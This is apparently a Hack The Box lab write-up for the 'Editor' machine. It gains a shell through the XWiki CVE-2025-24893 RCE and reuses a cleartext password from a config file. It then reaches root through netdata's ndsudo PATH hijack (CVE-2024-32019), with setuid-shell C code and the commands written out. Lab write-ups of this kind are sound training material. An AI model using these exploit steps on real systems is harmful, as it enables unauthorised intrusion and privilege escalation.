

# Editor - Easy

Target IP: **10.129.64.23**

## User Flag

Initial scan: ```sudo nmap -sC -sV 10.129.64.23 -v```

Output shows standard port 22 for ssh, port 80 for http running Nginx 1.18.0, and an unusual port 8080 running Jetty 10.0.20.

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://editor.htb/
8080/tcp open  http    Jetty 10.0.20
| http-cookie-flags: 
|   /: 
|     JSESSIONID: 
|_      httponly flag not set
|_http-server-header: Jetty(10.0.20)
| http-robots.txt: 50 disallowed entries (15 shown)
| /xwiki/bin/viewattachrev/ /xwiki/bin/viewrev/ 
| /xwiki/bin/pdf/ /xwiki/bin/edit/ /xwiki/bin/create/ 
| /xwiki/bin/inline/ /xwiki/bin/preview/ /xwiki/bin/save/ 
| /xwiki/bin/saveandcontinue/ /xwiki/bin/rollback/ /xwiki/bin/deleteversions/ 
| /xwiki/bin/cancel/ /xwiki/bin/delete/ /xwiki/bin/deletespace/ 
|_/xwiki/bin/undelete/
|_http-open-proxy: Proxy might be redirecting requests
| http-methods: 
|   Supported Methods: OPTIONS GET HEAD PROPFIND LOCK UNLOCK
|_  Potentially risky methods: PROPFIND LOCK UNLOCK
| http-title: XWiki - Main - Intro
|_Requested resource was http://10.129.64.23:8080/xwiki/bin/view/Main/
| http-webdav-scan: 
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, LOCK, UNLOCK
|_  Server Type: Jetty(10.0.20)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Port 80 redirects us to ```http://editor.htb/```, so let's add that to our ```/etc/hosts``` file and navigate to it.

We are greeted with a home page for an IDE that we can actually download files from, but I will not since that doesn't seem like the right pathway.


Let's see what is on port 8080. Navigating to ```http://editor.htb:8080/``` gets us this page. There is a post made by ```Neal Bagwell```, hinting at a potential ```neal``` user.



At the bottom of the page, we see that this is XWiki version 15.10.8.


Let's look for publicly disclosed vulnerabilities. After a quick Google search, we find out that XWiki version 15.10.8 is vulnerable to CVE-2025-24893, an unauthenticated RCE vulnerability.

Let's try this [PoC](https://github.com/Artemir7/CVE-2025-24893-EXP/blob/main/CVE-2025-24893-EXP.py).

It didn't work, so let's pivot to exploring more of the website. On the right hand side, there is a dropdown menu where we can log in.

The default credentials for XWiki is ```Admin:admin```. Let's try it.

It didn't work.

At this point, I was at a roadblock. I had a feeling the CVE was the way to exploit this, so I revisited it. It turned out I had to change the hardcoded path in the exploit to make it fit the instance that was running on the machine. The script needed to get to the ```SolrSearch``` endpoint, but it was missing a ```/xwiki``` in the beginning of the path.

After running the revised script, we get RCE.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dhms7okf2m]─[~]
└──╼ [★]$ python3 CVE-2025-24893-EXP.py -u http://wiki.editor.htb -c id

===========================================================
                   CVE-2025-24893
            XWiki Remote Code Execution Exploit
                      Author: Artemir
===========================================================

[+] Command Output:
uid=997(xwiki) gid=997(xwiki) groups=997(xwiki)
```

We can see the ```oliver``` user.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dhms7okf2m]─[~]
└──╼ [★]$ python3 CVE-2025-24893-EXP.py -u http://wiki.editor.htb -c 'cat /etc/passwd'

===========================================================
                   CVE-2025-24893
            XWiki Remote Code Execution Exploit
                      Author: Artemir
===========================================================

[+] Command Output:
root:x:0:0:root:/root:/bin/bash<br/>daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin<br/>bin:x:2:2:bin:/bin:/usr/sbin/nologin<br/>sys:x:3:3:sys:/dev:/usr/sbin/nologin<br/>sync:x:4:65534:sync:/bin:/bin/sync<br/>games:x:5:60:games:/usr/games:/usr/sbin/nologin<br/>man:x:6:12:man:/var/cache/man:/usr/sbin/nologin<br/>lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin<br/>mail:x:8:8:mail:/var/mail:/usr/sbin/nologin<br/>news:x:9:9:news:/var/spool/news:/usr/sbin/nologin<br/>uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin<br/>proxy:x:13:13:proxy:/bin:/usr/sbin/nologin<br/>www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br/>backup:x:34:34:backup:/var/backups:/usr/sbin/nologin<br/>list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin<br/>irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin<br/>gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin<br/>nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin<br/>_apt:x:100:65534::/nonexistent:/usr/sbin/nologin<br/>systemd-network:x:101:102:systemd Network Management<sub>,:/run/systemd:/usr/sbin/nologin<br/>systemd-resolve:x:102:103:systemd Resolver</sub>,:/run/systemd:/usr/sbin/nologin<br/>messagebus:x:103:104::/nonexistent:/usr/sbin/nologin<br/>systemd-timesync:x:104:105:systemd Time Synchronization<sub>,:/run/systemd:/usr/sbin/nologin<br/>pollinate:x:105:1::/var/cache/pollinate:/bin/false<br/>sshd:x:106:65534::/run/sshd:/usr/sbin/nologin<br/>syslog:x:107:113::/home/syslog:/usr/sbin/nologin<br/>uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin<br/>tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin<br/>tss:x:110:116:TPM software stack</sub>,:/var/lib/tpm:/bin/false<br/>landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin<br/>fwupd-refresh:x:112:118:fwupd-refresh user<sub>,:/run/systemd:/usr/sbin/nologin<br/>usbmux:x:113:46:usbmux daemon</sub>,:/var/lib/usbmux:/usr/sbin/nologin<br/>lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false<br/>dnsmasq:x:114:65534:dnsmasq<sub>,:/var/lib/misc:/usr/sbin/nologin<br/>mysql:x:115:121:MySQL Server</sub>,:/nonexistent:/bin/false<br/>tomcat:x:998:998:Apache Tomcat:/var/lib/tomcat:/usr/sbin/nologin<br/>xwiki:x:997:997:XWiki:/var/lib/xwiki:/usr/sbin/nologin<br/>netdata:x:996:999:netdata:/opt/netdata:/usr/sbin/nologin<br/>oliver:x:1000:1000:<sub>,:/home/oliver:/bin/bash<br/>_laurel:x:995:995::/var/log/laurel:/bin/false</sub>
```

I had trouble getting a reverse shell with this PoC, so I found [another](https://raw.githubusercontent.com/IIIeJlyXaKapToIIIKu/CVE-2025-24893-XWiki-unauthenticated-RCE-via-SolrSearch/refs/heads/main/CVE-2025-24893.py) one.

After executing it, we get a shell back.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dhms7okf2m]─[~]
└──╼ [★]$ nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.129.64.23 54140
bash: cannot set terminal process group (1130): Inappropriate ioctl for device
bash: no job control in this shell
xwiki@editor:/usr/lib/xwiki-jetty$ whoami 
whoami
xwiki
```

After digging around, we find a cleartext password.

```
xwiki@editor:/usr/lib/xwiki-jetty/webapps/xwiki/WEB-INF$ cat hibernate.cfg.xml | grep pass
<ps/xwiki/WEB-INF$ cat hibernate.cfg.xml | grep pass     
    <property name="hibernate.connection.password">theEd1t0rTeam99</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password">xwiki</property>
    <property name="hibernate.connection.password"></property>
```

Let's try to log in as ```oliver``` with this password through ssh.

It works, and we get a shell as ```oliver```.

```
oliver@editor:~$ whoami
oliver
```

We can proceed to get the user flag from here.

## Root Flag

```sudo -l``` tells us the ```oliver``` user cannot run sudo.

Looking at SUID bit binaries, we see a package of binaries all from ```netdata```. This is standard, and I wonder if we can exploit this.

Searching on Google, the ```ndsudo``` binary might be vulnerable to CVE-2024-32019, a local privilege escalation vulnerability.

This happens because the ```ndsudo``` binary blindly trusts the user defined ```$PATH``` environment variable to look for binaries to run. We can set a fake directory at the beginning of ```$PATH``` and place a malicious binary with the same name as the intended binary that ```ndsudo``` wants to want, giving us escalated privileges when ```ndsudo``` is ran.

The ```nvme-list``` option in ```ndsudo``` runs the ```nvme``` binary.

Let's create ```nvme.c``` on our attack box with this code:

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```

Compile it and transfer over to the target.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-dhms7okf2m]─[~]
└──╼ [★]$ gcc nvme.c -o nvme
```

Now, on the target, create a fake directory, place our binary in there, and set the ```$PATH``` so that the fake directory is at the leftmost position.

```
oliver@editor:/tmp$ mkdir fake
oliver@editor:/tmp$ cd fake
oliver@editor:/tmp/fake$ mv ~/nvme /tmp/fake/nvme
oliver@editor:/tmp/fake$ chmod +x nvme
oliver@editor:/tmp/fake$ export PATH=/tmp/fake:$PATH
oliver@editor:/tmp/fake$ echo $PATH
/tmp/fake:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Our preparation is done, now we can run ```ndsudo```, and hopefully we get a shell as root.

```
oliver@editor:~$ /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
root@editor:/home/oliver# whoami
root
```

It worked! We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
